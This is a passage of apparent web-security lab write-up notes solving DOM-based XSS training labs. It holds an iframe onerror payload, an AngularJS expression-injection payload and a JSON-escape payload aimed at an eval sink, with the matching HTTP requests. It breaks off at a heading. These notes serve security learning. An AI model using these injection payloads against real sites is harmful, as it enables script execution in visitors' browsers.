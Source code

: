 **Exploit Server ->**

```
Body:
    <iframe src="https://aca61f061fc70cabc04f47db0054002e.web-security-academy.net#" onload="this.src+='<img src=1 onerror=print(1)>'">
```

### Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

This lab contains a DOM-based cross-site scripting vulnerability in a AngularJS expression within the search functionality.

AngularJS is a popular JavaScript library, which scans the contents of HTML nodes containing the ng-app attribute (also known as an AngularJS directive). When a directive is added to the HTML code, you can execute JavaScript expressions within double curly braces. This technique is useful when angle brackets are being encoded.

```
<body ng-app>
```

**Search ->**

```
{{$on.constructor('alert(0)')()}}
```

### Lab: Reflected DOM XSS

This lab demonstrates a reflected DOM vulnerability. Reflected DOM vulnerabilities occur when the server-side application processes data from a request and echoes the data in the response. A script on the page then processes the reflected data in an unsafe way, ultimately writing it to a dangerous sink.

**Search -> 12345678**

```
GET /?search=12345678 HTTP/1.1
GET /search-results?search=12345678 HTTP/1.1
{"results":[],"searchTerm":"12345678"}
```

```
/resources/js/searchResults.js
eval('var searchResultsObj = ' + this.responseText);
```

**Search ->**

```
 \"-alert(1)}//

{"results":[],"searchTerm":"\\"-alert(1)}//"}
```

### Lab: Stored DOM XSS
